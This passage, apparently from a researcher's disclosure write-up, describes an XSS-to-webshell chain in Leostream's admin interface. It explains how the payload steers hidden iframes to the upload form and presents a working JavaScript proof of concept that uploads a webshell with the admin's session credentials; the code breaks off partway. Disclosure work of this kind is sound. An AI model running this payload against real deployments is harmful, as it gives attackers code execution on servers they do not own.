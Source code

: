 This digest has a random component that is updated everytime, so if you refresh the web the `r` values are changed:
```
clients.pl?uid=cHvoum7HQN64ywj3qTeCSQMM94TxrNTge62gnUXYkKQ;mb_user=remote_authentication;r=J0qimdk1465
clients.pl?uid=cHvoum7HQN64ywj3qTeCSQMM94TxrNTge62gnUXYkKQ;mb_user=remote_authentication;r=DyslJw14661
clients.pl?uid=cHvoum7HQN64ywj3qTeCSQMM94TxrNTge62gnUXYkKQ;mb_user=remote_authentication;r=nnAy09Q7683
...
```
Here are our problems: 

- **Problem #1**: we can not predict this value, so we can not send directly a POST request to upload our webshell. We need to force the navigation and extract the `r` generated.
- **Poblem #2**: the form used to upload third-party compontents is located inside a subsection. We need to go first to the "section", and then navigate to the "subsection", also filling some forms in the path.

Solution: two iframes. Not a charming solution, but it works. Our payload should:
1. Locate the link to the "system" section. We can get it accessing the DOM (`document.getElementsByTagName("a")[4]["href"]`)
2. Open a iframe to this location (iframe "pwn1")
3. Wait until it is loaded and extract the link to the subsection "Maintance" from its DOM (`window.frames["pwn1"].contentDocument.getElementsByTagName("a")[14]["href"]`)
4. Create a new iframe to this new location (iframe "pwn2") and wait to be loaded
5. Find the form inside this second iframe and autosubmit it setting the value to "Upload third-party content" (`window.frames["pwn2"].contentDocument.forms[0]["todo"].value = "upload_tpc"`)
6. Wait until the iframe is reloaded (because of the submited form)
7. Now finally we are at the "upload file" form (`window.frames["pwn2"].contentDocument.forms[0]["action"]`) and we can read the URL to do the request to upload our webshell (just `fetch()`).

Here is our (crappy) final payload (it just executes a `sudo id`):

```javascript
// PoC for XSS in Leostream by X-C3LL (Juan Manuel Fernandez)
var i = document.createElement("iframe");
var check = 0;
i.setAttribute("src", document.getElementsByTagName("a")[4]["href"]);
i.setAttribute("id", "pwn1");
i.addEventListener("load", function() {
    //Wait to load the iframe and then submit the form to go to the page where we can upload the file

    var f = document.createElement("iframe");
    f.setAttribute("src", window.frames["pwn1"].contentDocument.getElementsByTagName("a")[14]["href"]);
    f.setAttribute("id", "pwn2");
    f.addEventListener("load", function() {
        if (check == 0) {
            window.frames["pwn2"].contentDocument.forms[0]["todo"].value = "upload_tpc"
            window.frames["pwn2"].contentDocument.forms[0].submit()
            check = 1;
        }
        else {
            fetch(window.frames["pwn2"].contentDocument.forms[0]["action"], {
                "credentials": "include",
                "headers": {
                "User-Agent": "Swag Owl",
                "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                "Accept-Language": "es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
                "Content-Type": "multipart/form-data; boundary=---------------------------342766341182433198532876615",
                "Upgrade-Insecure-Requests": "1"
            },
```